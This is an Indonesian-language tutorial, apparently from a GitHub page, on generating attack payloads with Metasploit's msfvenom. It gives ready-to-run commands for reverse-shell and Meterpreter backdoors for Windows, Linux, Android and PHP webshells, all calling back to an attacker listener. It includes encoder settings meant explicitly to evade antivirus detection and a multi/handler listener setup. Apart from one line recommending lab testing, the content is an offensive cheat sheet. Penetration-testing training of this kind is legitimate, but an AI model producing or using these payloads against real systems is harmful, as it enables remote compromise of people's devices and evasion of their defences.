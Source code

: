 # Membuat Payload dengan msfvenom

## A. Apa Itu msfvenom?

msfvenom adalah tool bawaan dari Metasploit yang digunakan untuk:
- Membuat payload eksploitasi (`reverse shell`, `Meterpreter`, `dll`).
- Meng-encode payload untuk menghindari antivirus.
- Meng-output payload dalam berbagai format (`exe`, `elf`, `raw`, `c`, `dll`).

## B. Struktur Dasar Perintah msfvenom:

```
msfvenom -p <payload> LHOST=<ip_attacker> LPORT=<port> -f <format_output> -o <nama_file>
```

Keterangan:

| Parameter | Fungsi |
|:--:|:--:|
| `-p` | Memilih jenis payload | 
| `LHOST` | IP lokal/attacker |
| `LPORT` |	Port listener di attacker |
| `-f` | Format file output (`exe`, `elf`, `raw`, `dll`) |
| `-o` | Nama file output |
| `-e` | Encoder yang digunakan |
| `-i` | Jumlah iterasi encoder |
| `-n` | Jumlah byte NOP (NOP sled) |

## C. Contoh Payload Windows

1. Payload Reverse TCP:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
   ```

   Output: `shell.exe` (bisa dijalankan di sistem Windows).

2. Payload Dilengkapi Encoder:
  
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
   ```

   Encoding `5 kali` untuk menghindari deteksi AV.

## D. Contoh Payload Linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

Output: file `ELF` untuk Linux.

## E. Format Output yang Didukung

| Format |	Keterangan |
|:--:|:--:|
| `exe` | Windows executable |
| `elf` |	Linux executable |
| `raw` | Shellcode mentah |
| `c`	| Shellcode dalam array C |
| `python` | Shellcode untuk script Python |
| `asp, jsp, php`	| Webshell payload |
| `dll, macho, rb, dll`	| Format lainnya |

## F. Menampilkan Semua Payload yang Tersedia:

```
msfvenom -l payloads
```

## G. Contoh Payload di Format C:

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

Output-nya cocok untuk disisipkan dalam exploit `C` manual.

## H. Membuat Web Payload (PHP/ASP/JSP)

Contoh Payload `PHP`:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

## I. Memasukkan Bad Characters

Untuk menghindari karakter tertentu seperti `\x00\x0a`, bisa tambahkan:

```
-b "\x00\x0a"
```

Contoh:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b "\x00\x0a" -f exe -o filtered_shell.exe
```

## J. Payload untuk Android:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

## K. Listener di Metasploit

Setelah payload dijalankan di target, buka listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```

## Tips Tambahan

- Selalu uji payload di lab virtual.
- Gunakan encoding bila antivirus mendeteksi payload.
- Tambahkan `NOP sled` jika payload tidak stabil.
